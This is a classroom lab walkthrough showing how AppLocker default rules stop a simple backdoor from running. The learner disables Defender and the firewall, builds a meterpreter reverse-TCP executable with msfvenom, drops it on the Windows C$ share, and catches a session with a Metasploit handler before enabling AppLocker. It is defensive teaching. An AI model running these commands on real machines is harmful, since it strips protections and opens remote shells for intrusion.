










# AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Kali** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of **Windows Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let’s continue by opening a **Kali** instance.

Alternatively, you can click on the **Kali** icon in the taskbar.

Let's start by getting root access in our terminal.

<pre>sudo su -</pre>

We need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=password1234</pre>

**REMEMBER - YOUR IP ADDRESS AND PASSWORD WILL BE DIFFERENT.**

If you see the following error, it means that the device is already mounted.

If this is the case, ignore it.
Run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Before we run the next commands, we need to get the IP of our Kali System (AKA our Linux IP Adress). Lets do so by running the following:

<pre>ifconfig</pre>

**REMEMBER: YOUR IP WILL BE DIFFERENT**

Now, run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit Handler**.  First, open a new **Kali** instance. The easiest way to do this is by clicking on the **Kali** icon in the taskbar.

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

The **Metasploit Handler** successfully ran if the terminal now starts with **"msf6 >"**

Next, let's run the following:

<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your Linux IP Address]</pre>

**REMEMBER - YOUR IP WILL LIKELY BE DIFFERENT!**

Go ahead and run the exploit:

<pre>exploit</pre>

It should look like this:

Let’s download the malware and run it!

Open a **Windows** command prompt. Do this by clicking on the icon in the taskbar.

 

Once the prompt is open, let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

Back at your **Kali** terminal, you should now have a **metasploit** session!

Let’s stop this from happening!

To do this we will need to access the **"Local Security Policy"** on your **Windows** System.

Simply press the Windows key, (lower left hand of your keyboard, looks like a Windows Logo), then type **"Local Security"**.  It should bring up a menu like the one below, please select **"Local Security Policy"**.

We will need to configure **AppLocker**.  To do this, please go to Security Settings > Application Control Policies > AppLocker.

Scroll down in the right hand pane. You will see there are **"0 Rules enforced"** for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to break a system.

Please select each of the above Rule groups, **"Executable, Windows Installer, Script, and Packaged,"** and for each one, right click in the area that says **“There are no items to show in this view.”** and then select **“Create Default Rules”**.

This should generate a subset of rules for each group.  It should look similar to how it does below: 

For simplicity, you can click the next set of rules from the left panel as seen above.

We now need to enforce the rules:

To do this you will need to select **AppLocker** on the far left pane.  You will need to select **"Configure rule enforcement"**.  This will open a pop-up. Check the **"Configured"** box for each set of rules.  

We will need to start the **"Application Identity service"**.  This is done through pressing the Windows key and typing **"Services"**.  

This will bring up the **Services App**.  Double-click **“Application Identity”**.

Once the **"Application Identity Properties"** dialog is open, please press the **Start** button.  This will start the service.

Open a command prompt and run **"gpupdate"** to force the policy change.

<pre>gpupdate /force</pre>

We are now going to try to run **"TrustMe.exe"** as another user on the system. 

Run the following commands:

<pre>cd /IntroLabs</pre>

<pre>runas /user:whitelist "nc"</pre>

The password is **adhd**

As you can see, an error was generated, meaning that we were successful!

***

When finished with the Lab Environment, please be sure to [Destroy the Lab Environment](/IntroClassFiles/labdestruction.md)

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
